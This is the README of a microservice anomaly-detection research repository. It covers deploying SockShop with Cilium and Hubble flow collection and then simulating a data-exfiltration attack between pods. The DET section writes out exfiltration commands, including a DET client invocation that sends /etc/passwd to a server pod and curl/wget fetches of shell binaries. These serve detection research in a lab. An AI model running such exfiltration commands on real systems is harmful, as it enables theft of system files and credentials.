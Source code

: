 # Microservice Anomaly Detection
Brian: I want this repository to become the central repository for all things microservice related.
It is a mess and we need to cleanup the whole repository

## Deploying SockShop
1. Optional: Install minikube
2. Optional: Set minikube config to have enough memory and cpu (sets default)
   1. `minikube config set memory 16384`
   2. `minikube config set cpus 10`
3. Optional: If you want to use cilium install cilium `bash install_cilium.sh`
4. Create a profile for your cluster: `minikube profile CLUSTER_NAME`
5. Start minikube: 
   1. Without cilium: `minikube start -p CLUSTER_NAME --memory 8192 --cpus 5`
   2. If using cilium (cilium must be installed): `minikube start --cni=cilium -p CLUSTER_NAME --memory 8192 --cpus 5`
6. Deploy SockShop: `bash deploy_sockshop.sh`

Check status of pods: `kubectl get pods --namespace sock-shop`

Get IP of front-end service: `minikube service --profile CLUSTER_NAME --url front-end -n sock-shop` 

Test if it is working `curl http://192.168.49.2:30001` or go to link in browser

## Debugging cilium connectivity 
1. Follow the guide for first time : https://kubernetes.io/docs/tasks/administer-cluster/network-policy-provider/cilium-network-policy/
2. Use https://docs.cilium.io/en/stable/gettingstarted/k8s-install-default/ to run tests : cilium connectivity test and cilium status --wait to verify outputs match.

## Simulating Traffic on SockShop
1. cd into `experiment_coordinator`
2. Setup a conda environment: `conda env create -f condaEnv.yml`
3. Cd into `traffic_simulation`
4. Activate conda env: `conda activate sockShop`
If you need to populate the database full of users: `python simulate_traffic.py -p`
4. Simulate traffic: `python simulate_traffic.py -t`

## Collecting Data with Cilium
1. To deploy cilium: `bash deploy_cilium.sh`
2. Test if its working: `cilium connectivity test`
3. Check if hubble is collecting flows : `hubble status`
4. To start collecting `hubble observe -n sock-shop -o json`

Cilium Documentation: https://docs.cilium.io/en/stable/gettingstarted/

## Todo
1. Cleanup Repository
2. Fix Cilium data collection
3. Run data exfiltration attack

## Deployment Instruction [Kirtan]
1. Start minikube: `minikube start --network-plugin=cni -p CLUSTER_NAME`
2. Enable cilium on minikube : `cilium install`
3. Verify cilium is enabled : `cilium status`
4. If you are running for the first time, verify cilium connectivity:`cilium connectivity test` : It takes couple of minutes for this to execute.
5. Enable hubble on cilium : `cilium hubble enable`
6. Enable port forwarding : `cilium hubble port-forward&`
7. Check if hubble is collecting flows : `hubble status`
8. Deploy SockShop: `bash deploy_sockshop.sh`

## DET tool setup
There are 2 containers: users-db and catalogue-db which allows installing dependencies needed by allowing apt-install and updates.
Hence, our goal is to make one of them our DET server i.e. one sending data and other one as client i.e. receiving data.

In order to do that, we first create an additional service on a new port of container users-db as container does not allow
us to run service on a new port once its turned on. Hence,  bash deploy_sockshop_with_det.sh will deploy
sockshop_modified_full_cluster_with_det.yaml which is same as deploy_sockshop_modified_full_cluster.yaml with a new port
added to users_db 27018  LOC :809 as well as a new Service user-db-det: LOC 844.

Here, we will use users_db as our server and catalogue_db as our client.


### Deploy Sock-shop with DET
1. run `bash deploy_sockshop_with_det.sh`

Once the sock-shop completes deployment,
### Getting needed metadata of user-db and catalogue-db pods
1. Get pod ids of users-db and catalogue-db from : `kubectl get pods  -n sock-shop` 
2. Get IP address of user-db-det from : `kubectl get services -o wide -n sock-shop`

### Preparing User-db for DET
1. SSH into users_db using `kubectl exec --stdin --tty user-db-XXXXXXX  --namespace sock-shop -- /bin/bash`
2. For simplehttpserver communication, run following commands:
   1. `apt-get -o Acquire::ForceIPv4=true update`
   2. `apt-get --force-yes -y -o Acquire::ForceIPv4=true install python`
3. For DET, run all the commands given in the file det_dependencies_to_install.txt    

### Preparing Catalogue-db for DET
1. SSH into users_db using `kubectl exec --stdin --tty catalogue-db-XXXXXXX  --namespace sock-shop -- /bin/bash`
2. For simplehttpserver communication, run following commands:
   1. `apt-get -o Acquire::ForceIPv4=true update`
   2. `apt-get --force-yes -y -o Acquire::ForceIPv4=true install curl wget`
3. For DET, run all the commands given in the file det_dependencies_to_install.txt   

### Annotating pods for datacollection
1. Annotate user-db pod for cilium data collection: `kubectl annotate pod user-db-XXXX -n sock-shop io.cilium.proxy-visibility="<Egress/27018/TCP/HTTP>,<Ingress/27018/TCP/HTTP>"`
2. Annotate catalogue-db pod for cilium data collection: `kubectl annotate pod catalogue-db-XXXXx -n sock-shop io.cilium.proxy-visibility="<Egress/27018/TCP/HTTP>,<Ingress/27018/TCP/HTTP>"`


### Turn on hubble data collection
1. Run this command to observe http traffic between server and client and write it to file : `hubble observe  --follow --protocol http -o json > det_data.txt`
2. Run this command to observe http traffic between server and client in command line : ` hubble observe  --follow --protocol http -o json `

### SimpleHTTPPythonServer DET
1. On users-db, start the python server on port 27018 : `python -m SimpleHTTPServer 27018`
2. On catalogue-db use wget/curl to retrieve files : `curl 10.103.13.14:27018/bin/sh` or `wget 10.103.13.14:27018/bin/bash`
3. Observe traffic in hubble

### DET using PaulSec/DET tool
Assuming you have installed all the commands in the det_dependencies_to_install.txt on both the catalogue-db and user-db, follow the next steps:
1. Install vim to edit config files for det on both the pods using : `apt-get update`; `apt search vim`; `apt-get install vim`
2. On user-db, 
   1. Open config-server.json and replace http port with 27018 on Line 5 and save the file
   2. Then start the DET server using following command : `python det.py -L -c ./config-server.json -p http`
3. On catalogue-db,
   1. Open config-client.json and replace http port with 27018 on Line 5 and replace IP address with whatever IP you got for user db in metadata colleciton.
   2. After that run the following command to retrieve file that you wish to retrieve: 
      1. `python det.py -c ./config-client.json -p http -f /etc/passwd`
   3. You can also configure max_time_sleep, min_time_sleep,max_bytes_read, min_bytes_read in the config files of both server and client


